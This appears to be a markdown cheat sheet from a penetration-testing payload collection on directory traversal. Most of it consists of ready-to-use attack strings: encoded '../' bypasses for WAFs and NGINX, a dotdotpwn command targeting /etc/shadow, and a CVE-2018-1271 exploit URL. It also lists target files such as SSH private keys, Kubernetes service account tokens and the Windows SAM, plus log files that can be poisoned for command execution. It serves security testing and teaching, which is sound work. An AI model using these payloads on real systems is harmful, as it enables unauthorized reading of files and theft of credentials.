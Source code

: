 # Directory traversal

> A directory or path traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.

## Summary

* [Tools](#tools)
* [Basic exploitation](#basic-exploitation)
    * [16 bits Unicode encoding](#16-bits-unicode-encoding)
    * [UTF-8 Unicode encoding](#utf-8-unicode-encoding)
    * [Bypass "../" replaced by ""](#bypass--replaced-by-)
    * [Bypass "../" with ";"](#bypass--with-)
    * [Double URL encoding](#double-url-encoding)
    * [UNC Bypass](#unc-bypass)
    * [NGINX/ALB Bypass](#nginxalb-bypass)
* [Path Traversal](#path-traversal)
    * [Interesting Linux files](#interesting-linux-files)
    * [Interesting Windows files](#interesting-windows-files)
* [References](#references)

## Tools

- [dotdotpwn - https://github.com/wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn)
    ```powershell
    git clone https://github.com/wireghoul/dotdotpwn
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Basic exploitation

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### 16 bits Unicode encoding

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

### UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### Bypass "../" replaced by ""
Sometimes you encounter a WAF which remove the "../" characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

### Bypass "../" with ";"

```powershell
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 
```

### Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

**e.g:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271) with `http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini`

### UNC Bypass

An attacker can inject a Windows UNC share ('\\UNC\share\name') into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```

### NGINX/ALB Bypass

NGINX in certain configurations and ALB can block traversal attacks in the route, For example:
```http://nginx-server/../../``` will return a 400 bad request.

To bypass this behaviour just add forward slashes in front of the url:
```http://nginx-server////////../../```


### Java Bypass

Bypass Java's URL protocol

```powershell
url:file:///etc/passwd
url:http://127.0.0.1:8080
```


## Path Traversal

### Interesting Linux files

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

### Interesting Windows files

Always existing file in recent Windows machine. 
Ideal to test path traversal but nothing much interesting inside...

```powershell
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
```

Interesting files to check out (Extracted from https://github.com/soffensive/windowsblindread)

```powershell
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

The following log files are controllable and can be included with an evil payload to achieve a command execution

```powershell
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```
## Labs

* [File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)
* [File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)
* [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)
* [File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)
* [File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)
* [File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

## References

* [Path Traversal Cheat Sheet: Windows](https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
* [CWE-40: Path Traversal: '\\UNC\share\name\' (Windows UNC Share) - CWE Mitre - December 27, 2018](https://cwe.mitre.org/data/definitions/40.html)
* [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d?source=friends_link&sk=e9ddbadd61576f941be97e111e953381)
* [Directory traversal - Portswigger](https://portswigger.net/web-security/file-path-traversal)
